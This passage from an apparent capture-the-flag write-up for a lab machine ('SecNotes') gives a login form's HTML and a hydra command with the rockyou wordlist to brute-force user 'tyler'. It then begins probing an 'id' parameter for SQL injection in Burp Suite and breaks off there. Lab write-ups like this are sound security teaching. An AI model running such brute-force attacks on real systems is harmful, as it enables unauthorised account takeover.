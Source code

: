 It looks like `tyler` is another username to know. Set up a bruteforce login attempt in the background. Here is the important HTML from `login.php`:

```html
<form action="/login.php" method="post">
    <div class="form-group ">
        <label>Username</label>
        <input type="text" name="username"class="form-control" value="">
        <span class="help-block"></span>
    </div>    
    <div class="form-group ">
        <label>Password</label>
        <input type="password" name="password" class="form-control">
        <span class="help-block"></span>
    </div>
    <div class="form-group">
        <input type="submit" class="btn btn-primary" value="Login">
    </div>
    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
</form>
```

This becomes the following brute-force attempt:

```bash
# copy base wordlist
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# remove empty passwords (causes different error in website => false positive)
awk 'NF' rockyou.txt > rockyou_no_whitespace.txt
hydra 10.10.10.97 http-form-post "/login.php:username=^USER^&password=^PASS^:The password you entered was not valid" -l tyler -P rockyou_no_whitespace.txt -vV -f
```

While that runs, play around with the web interface under the newly created account... After creating a new note and looking at the HTML source, there is an interesting link for the delete button for a given note:

![web4](./secnotes/web4.png)

It seems like there is an `id` parameter here for an SQL injection? Open BurpSuite and catch the HTTP GET request in the Proxy and send it to the Repeater:

![burp1](./secnotes/burp1.png)
